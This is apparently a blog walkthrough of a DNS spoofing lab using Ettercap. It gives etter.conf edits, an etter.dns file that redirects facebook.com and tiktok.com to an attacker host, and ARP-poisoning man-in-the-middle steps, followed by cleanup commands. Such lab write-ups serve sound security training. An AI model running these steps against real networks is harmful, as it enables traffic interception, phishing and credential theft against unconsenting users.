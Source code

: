 ```yaml
---
title: "DNS Spoofing"
published: 2025-10-26
description: "A practical lab walkthrough demonstrating DNS spoofing using Ettercap in a controlled environment."
image: "/assets/dns-spoofing/cover.jpg"
tags: [DNS Soopfing, Pentesting, Ettercap, MITM]
category: "Network Pentesting"
draft: false
lang: "en"
---
```


# What is DNS Soofing

**DNS Spoofing (also called DNS Cache Poisoning)** is a type of cyber attack where an attacker manipulates the Domain Name System (DNS) to redirect internet traffic.

Normally, when you type a website name like `facebook.com`, your computer asks a DNS server for the correct IP address. In DNS spoofing, the attacker sends a **fake DNS response**, making your computer believe that the malicious server’s IP is the real one.

As a result, you are unknowingly redirected to a **fake or malicious website** that might look like the real one — allowing the attacker to **steal personal information**, **install malware**, or **monitor your activity**.

# Ettercap DNS Spoofing — Setup Guide

## 1. Edit Ettercap configuration files

Open the main configuration and the DNS hosts file in a text editor:

```jsx
sudo nano /etc/ettercap/etter.conf
sudo nano /etc/ettercap/etter.dns
```

### Example `etter.conf` changes

Set privileges so Ettercap runs with the desired UID/GID (use with caution):

```
[privs]
ec_uid = 0    # root (default is usually nobody)
ec_gid = 0    # root group
```

Network redirect commands (examples—adjust to your environment):

```
# IPv4 redirect (example)
# redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
# redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

# IPv6 redirect 
redir6_command_on = "ip6tables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
redir6_command_off = "ip6tables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
```

> Note: Keep commented lines as templates. Only enable the commands you require and understand.
>

## 2. Configure `etter.dns` (hosts mapping for dns_spoof)

`etter.dns` accepts entries in this form:

```
hostname [A|AAAA|PTR|MX|WINS|SRV|TXT] value [TTL]
```

**Example (use RFC 5737 / RFC 3330 test IPs or RFC1918 addresses to avoid interfering with real hosts):**

```
############################################################################
# ettercap -- etter.dns -- sample hosts file for dns_spoof plugin
# Educational example — use ONLY in an isolated lab or with permission.
############################################################################

#---------------------MAIN----------------------
# Basic A records (IPv4)
facebook.com         A    yourWebIp
tiktok.com           A    198.51.100.10
intranet.local       A    10.10.10.5
#-------------------------------------------

# Wildcard example (matches any subdomain)
*.example.lab        A    198.51.100.10

# PTR (reverse) records
host1.example.lab    PTR  10.0.0.10
printer.local        PTR  10.0.0.20  300

# MX, SRV, TXT examples
example-mail.com     MX   192.0.2.55
_ldap._tcp.example   SRV  10.0.0.40:389
example.com          TXT  "v=spf1 ip4:192.0.2.0/24 -all" 3600

############################################################################
```

`facebook.com` is a target domain and  `A → IP`is attacker set domain IP this redirect to the attacker website but URL is same.

## 3. Launch Ettercap GUI and perform the attack (lab only)

1. Start Ettercap in GUI mode:

    ```bash
    sudo ettercap -G
    ```

2. Select your network interface (e.g., `eth0` or `wlan0`).

![image.png](\assets\dns-spoofing\image.png)

1. Start host scan → list connected hosts on the network.

    ![image.png](\assets\dns-spoofing\image%201.png)

2. Set `Target 1` as the victim IP and `Target 2` as the gateway/router IP.

![image.png](\assets\dns-spoofing\image%202.png)

1. Start MITM (ARP poisoning) attack to intercept traffic.

![image.png](\assets\dns-spoofing\image%203.png)

![image.png](\assets\dns-spoofing\image%204.png)

1. Enable the `dns_spoof` plugin from the *Plugins* menu.

![image.png](\assets\dns-spoofing\image%205.png)

![image.png](\assets\dns-spoofing\image%206.png)

1. Start the spoofing

![image.png](\assets\dns-spoofing\image%207.png)

When the victim opens `tiktok.com` or `facebook.com`, the DNS query is poisoned and the browser is redirected to my host at **192.168.0.110** (my local machine), while the address bar continues to display the original domain name.

![image.png](\assets\dns-spoofing\image%208.png)

## 4. Cleanup & Remediation

After testing, restore victim systems and network equipment:

- Stop Ettercap and all attacks.
- The site is now served over **HTTP** (TLS/SSL is missing), not HTTPS.

    ![image.png](\assets\dns-spoofing\image%209.png)

- Flush DNS caches on affected hosts:
  - **Windows:**

    ```jsx
    ipconfig /flushdns
    ```

    ![image.png](\assets\dns-spoofing\image%2010.png)

  - Linux (systemd-resolved):

    ```bash
    sudo systemd-resolve --flush-caches
    ```

  - macOS:

        ```bash
        sudo dscacheutil -flushcache; sudo killall -HUP mDNSResponder
        ```

- Restart network interfaces or reboot devices if necessary.
- Revert any firewall/iptables rules you temporarily applied.

# Summary

- Performed DNS spoofing with **Ettercap `dns_spoof`** in a lab.
- Mapped `facebook.com` / `tiktok.com` to **192.168.0.110** via `etter.dns`.
- Launched GUI (`sudo ettercap -G`), scanned hosts, set victim (Target 1) and gateway (Target 2).
- Executed **ARP MITM** and enabled `dns_spoof` to inject forged DNS replies.
- Victim traffic redirected to attacker host while **URL stayed the same**; **HTTPS dropped to HTTP** (certificate errors).
- Cleaned up: stopped Ettercap, flushed DNS caches, and reverted network changes.
